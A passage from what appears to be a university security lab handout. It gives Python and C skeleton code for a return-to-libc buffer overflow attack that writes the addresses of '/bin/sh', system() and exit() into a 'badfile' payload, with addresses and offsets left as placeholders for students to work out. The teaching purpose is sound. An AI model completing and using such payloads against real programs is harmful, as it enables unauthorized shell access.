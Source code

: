 \begin{lstlisting}
#!/usr/bin/python3
import sys

# Fill content with non-zero values
content = bytearray(0xaa for i in range(300))

X = 0
sh_addr = 0x00000000       # The address of "/bin/sh"
content[X:X+4] = (sh_addr).to_bytes(4,byteorder='little')

Y = 0
system_addr = 0x00000000   # The address of system()
content[Y:Y+4] = (system_addr).to_bytes(4,byteorder='little')

Z = 0
exit_addr = 0x00000000     # The address of exit()
content[Z:Z+4] = (exit_addr).to_bytes(4,byteorder='little')

# Save content to a file
with open("badfile", "wb") as f:
  f.write(content)
\end{lstlisting}
 
You need to figure out the three addresses and the values for 
\texttt{X}, \texttt{Y}, and \texttt{Z}. 
If your values are incorrect,
your attack might not work. In your report, you need to
describe how you decide the values for {\tt X}, {\tt Y} and {\tt
Z}. Either show us your reasoning or, if you use a trial-and-error approach,
show your trials.


\paragraph{Using C.}
We also provide you with a skeleton of C code, with the essential 
parts left for you to fill out.


\begin{lstlisting}
/* exploit.c */
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
int main(int argc, char **argv)
{
  char buf[40];
  FILE *badfile;

  badfile = fopen("./badfile", "w");

  /* You need to decide the addresses and 
     the values for X, Y, Z. The order of the following 
     three statements does not imply the order of X, Y, Z.
     Actually, we intentionally scrambled the order. */
  *(long *) &buf[X] = some address ;   //  "/bin/sh"    (*@\ding{80}@*)
  *(long *) &buf[Y] = some address ;   //  system()     (*@\ding{80}@*)
  *(long *) &buf[Z] = some address ;   //  exit()       (*@\ding{80}@*)

  fwrite(buf, sizeof(buf), 1, badfile);
  fclose(badfile);
}
\end{lstlisting}

You need to figure out the addresses in lines marked by , as well as to
find out where to store those addresses (i.e., the values 
for \texttt{X}, \texttt{Y}, and \texttt{Z}). If your values are incorrect, 
your attack might not work. In your report, you need to 
describe how you decide the values for {\tt X}, {\tt Y} and {\tt
Z}. Either show us your reasoning or, if you use a trial-and-error approach,
show your trials.


